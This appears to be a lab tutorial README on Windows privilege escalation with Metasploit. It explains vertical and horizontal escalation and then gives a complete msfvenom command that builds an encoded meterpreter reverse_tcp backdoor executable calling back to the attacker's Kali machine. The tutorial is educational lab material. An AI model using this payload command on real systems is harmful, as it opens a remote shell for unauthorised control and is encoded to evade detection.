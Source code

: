 # Privilege-Escalation

## Performing privilege escalation using Metasploit

Before digging deeper into the attack mechanism, let's understand what exactly is meant by "Privilege escalation". Imagine you're at a party, and you have a VIP wristband that lets you access the exclusive VIP area. But what if you could somehow sneak past the bouncer and upgrade your VIP wristband to a "Super" VIP wristband that lets you access even more exclusive areas of the party? That's kind of like what a privilege escalation attack does - it sneaks past the security measures in place and gives the attacker more privileges than they were originally supposed to have, allowing them to access sensitive information or perform malicious actions.

Privilege escalation is a type of attack in which an attacker gains access to a system or network with limited privileges, such as a normal user account, and then exploits a vulnerability or flaw in the system to elevate their privileges to a higher level. This higher level of privilege may allow the attacker to perform actions that would normally be restricted, such as accessing sensitive information, installing malware, modifying system configurations, or even taking complete control of the system.
 
There are two main types of privilege escalation: **vertical** and **horizontal**. 

- **Vertical privilege escalation**: The attacker gains higher privileges by exploiting a vulnerability or flaw in the system that allows them to escalate their privileges to a higher level, such as gaining administrative access. 
- **Horizontal privilege escalation**: The attacker gains the same level of privileges as another user, but on a different account or system. For example, if a user has access to sensitive data on one system, an attacker might use a horizontal privilege escalation attack to gain access to that same data on a different system. Horizontal privilege escalation attacks are typically less severe than vertical attacks, but they can still pose a serious threat if sensitive data or resources are accessed without authorization.

Now that we know what is meant exactly by the attack strategy that we're using here, let's get into creating the exploit. Our attacker machine here will be Kali Linux (IP: 192.168.100.5 ) and Windows 10 (IP: 192.168.100.6 ). Both virtual machines are Natted in a NAT network, however, it wont be necessary for you to NAT them since we'll be using Apache server in order to create a shared folder to access the malicious backdoor.exe file.

## 1. Create a Malicious `.exe` File Using `msfvenom`

`msfvenom` has numerous payloads that you can choose from, just keep in mind to choose ones that are compatible with the target OS and the architecture. Here, since we're targeting a Windows OS, we'll use `meterpreter/reverse_tcp`. 

### **Meterpreter vs Non-Meterpreter**  
- **Meterpreter payloads** are more versatile and powerful, but they can also be larger in size and more likely to be detected by security tools.  
- **Non-meterpreter payloads** are smaller and simpler, making them more likely to evade detection, but they may not provide the same level of functionality and flexibility as Meterpreter.  

`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -ex86/xor_dynamic -ex86/shikata_ga_nai -b "\x00" LHOST=192.168.100.5 -i 5 -f exe > /home/kali/Desktop/Exploit.exe`
